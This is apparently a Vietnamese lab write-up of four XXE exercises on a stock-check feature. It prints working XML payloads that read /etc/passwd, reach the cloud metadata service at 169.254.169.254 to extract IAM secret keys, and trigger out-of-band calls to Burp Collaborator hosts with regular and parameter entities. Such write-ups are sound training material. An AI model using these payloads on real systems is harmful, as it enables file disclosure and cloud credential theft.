**Lab: Exploiting XXE using external entities to retrieve files**



Đề bài yêu cầu khai thác lỗ hổng XML External Entity (XXE) trong tính năng kiểm tra kho hàng để đọc nội dung file `/etc/passwd`.

Truy cập vào bài lab ta thấy giao diện trang bán hàng quen thuộc. Ta chọn một sản phẩm và sử dụng chức năng Check stock.



Bắt request của tính năng Check stock, ta thấy dữ liệu được gửi lên server ở định dạng XML.



Ta thêm một khai báo DTD (Document Type Definition) để định nghĩa thực thể bên ngoài `xxe` trỏ tới file `/etc/passwd`, sau đó gọi thực thể `&xxe;` vào bên trong thẻ `<productId>`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Gửi request đi, server phân tích cú pháp XML và trả về nội dung của file `/etc/passwd`.



Vậy là hoàn thành bài lab này.

-----------------------------------------------------------------

**Lab: Exploiting XXE to perform SSRF attacks**



Bài lab này yêu cầu tận dụng lỗ hổng XXE để thực hiện một cuộc tấn công SSRF (Server-Side Request Forgery) truy cập vào dịch vụ metadata đám mây tại `http://169.254.169.254/` nhằm trích xuất IAM secret access key.

Vào lab ta tiếp tục kiểm tra tính năng Check stock của sản phẩm.



Bắt request XML kiểm tra số lượng sản phẩm trong kho.



Đầu tiên ta dùng Burp Collaborator tạo một URL để kiểm tra xem server có thực hiện gọi ra bên ngoài hay không.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://1np2eywyjvhk76e1itb5d9d87zdq1gp5.oastify.com"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Kết quả trả về phản hồi chứa nội dung của Collaborator, và bên tab Burp Collaborator cũng nhận được request HTTP gửi tới.




Sau khi xác định server cho phép gọi ra ngoài, ta đổi URL trong khai báo DTD trỏ tới `http://169.254.169.254/`. Server trả về các đường dẫn con như `latest`. Ta tiếp tục duyệt sâu theo các thư mục metadata cho đến đường dẫn chứa thông tin xác thực AWS.



Server trả về đầy đủ IAM secret access key trong phản hồi.

Vậy là hoàn thành lab.

-----------------------------------------------------------------

**Lab: Blind XXE with out-of-band interaction**



Đề bài yêu cầu khai thác lỗ hổng Blind XXE để kích hoạt một tương tác ngoài băng thông (out-of-band) tới Burp Collaborator.

Truy cập vào trang sản phẩm và kiểm tra chức năng Check stock.



Request XML của tính năng Check stock có cấu trúc gồm hai thẻ `<productId>` và `<storeId>`.



Khi ta khai báo thực thể bên ngoài và chèn vào `<productId>` thì server thông báo `Invalid product ID`.



Nếu chèn vào `<storeId>` thì server chỉ phản hồi số lượng sản phẩm chứ không trả về dữ liệu của thực thể.



Vì không thể nhận dữ liệu phản hồi trực tiếp, ta chuyển sang kỹ thuật Blind XXE bằng cách trỏ thực thể tới địa chỉ Burp Collaborator.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://qzv3r3f5v6j4o5b1itb5d9d87zdq1gp5.oastify.com"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Gửi request rồi chuyển sang tab Burp Collaborator kiểm tra, ta thấy đã có các truy vấn DNS và HTTP được gửi tới từ server mục tiêu.



Vậy là hoàn thành lab.

-----------------------------------------------------------------

**Lab: Blind XXE with out-of-band interaction via XML parameter entities**



Trong bài này, server đã chặn việc sử dụng các thực thể XML thông thường trong nội dung tài liệu. Đề bài yêu cầu sử dụng XML parameter entity để kích hoạt tương tác DNS và HTTP tới Burp Collaborator.

Truy cập vào lab và bắt request Check stock.



Ta định nghĩa một parameter entity bằng cú pháp `%` bên trong khối DTD và tham chiếu thực thể đó ngay trong DTD thay vì trong thân XML.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://snjtepwpjmhb7xesikbwd0dz7qdh1apz.oastify.com"> %xxe; ]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

Server trả về lỗi cú pháp XML parsing error.



Tuy nhiên trình phân tích cú pháp XML vẫn đã nạp và phân giải URL trước khi báo lỗi. Kiểm tra tab Burp Collaborator ta thấy các truy vấn từ server đã được ghi nhận.

